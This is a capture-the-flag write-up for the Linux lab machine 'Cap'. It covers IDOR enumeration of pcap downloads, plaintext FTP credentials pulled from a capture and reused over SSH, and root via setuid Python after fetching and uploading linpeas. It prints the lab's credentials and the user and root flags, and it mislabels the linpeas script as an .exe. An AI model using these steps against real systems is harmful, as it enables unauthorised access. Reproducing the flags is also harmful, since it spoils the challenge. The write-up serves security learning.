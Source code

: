 ### Cap
**OS:** Linux<br>
**Difficulty:** Easy<br><br>
**Tags:** Forensics, Vulnerability Assessment, Web Application, Security Operations, Log Analysis, Common Security Controls, Clear Text Credentials, File System Configuration, Insecure Direct Object Reference (IDOR), Python

---

#### Insecure Direct Object Reference

Running an [initial port scan](port_scan), we identify FTP, SSH, and HTTP services running on the target system. We then visit the website and discover that we are logged into a security dashboard with the username Nathan:

![Website](website.png)

In the security dashboard, we navigate to the security snapshot page. Looking at the URL, we see we're viewing the 4th snapshot, which displays statistics for snapshot, along with a download button to retrieve the pcap file for further analysis:

![Pcap Page](pcap_page.png)

We download the pcap and intercept the http request using the Proxy tab in Burp Suite:

```
GET /download/4 HTTP/1.1
Host: 10.129.91.36
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.91.36/data/4
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

It downloads the pcap by making an http get request to `/download/4`, which might indicate an insecure direct object reference vulnerability. We make a request to `/download/3` and successfully download the previous a snapshot, verifying the presence of the vulnerability. 

In Burp Suite, we send the intercepted request to the Intruder. Using a Sniper attack, we test different pcap file reference numbers and find that the valid ones range from 0 to 4:

![Intruder](intruder.png)

---

#### Packet Capture Analysis

We download all the valid pcap files from the dashboard and merge them into one file:

```bash
$ touch download.pcap
$ for i in {0..4}; do wget http://10.129.91.36/download/$i -O download$i.pcap; mergecap -w download.pcap download.pcap download$i.pcap; done
```

We open the [merged pcap file](download.pcap) in Wireshark and find that packet 34 seems to pertain to a vsFTPd 3.0.3 session. We follow the [TCP stream](ftp_stream) of packet 34 to examine the entire ftp session and find that the user login credentials `nathan:Buck3tH4TF0RM3!` are passed in plaintext:

![Wireshark ftp Session](ftp.png)

----

#### Initial Access

From our port scan, we discovered that ssh was running on the target machine. We reuse the ftp login credentials gained from the pcap file, gaining remote ssh access as nathan:

![Initial Access](initial_access.png)

---

#### Privilege Escalation

We download the `linpeas.exe` executable onto our local machine and transfer it from our machine to the target machine:

```bash
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
$ scp linpeas.sh nathan@10.129.91.36:/home/nathan
```

On the target machine, we run the `linpeas.exe` executable and discover that Python has special setuid permissions:

![linepeas.exe](linpeas.png)

Using the Python interpreter we set the uid to 0, allowing us to make syscalls as root:

![Root](root.png)

---

#### User Flag
> 780856c2f493cfe0b0918cecf08720fe


#### Root Flag
> 01364b6ad0bf72b02563ac917f23a7fa


---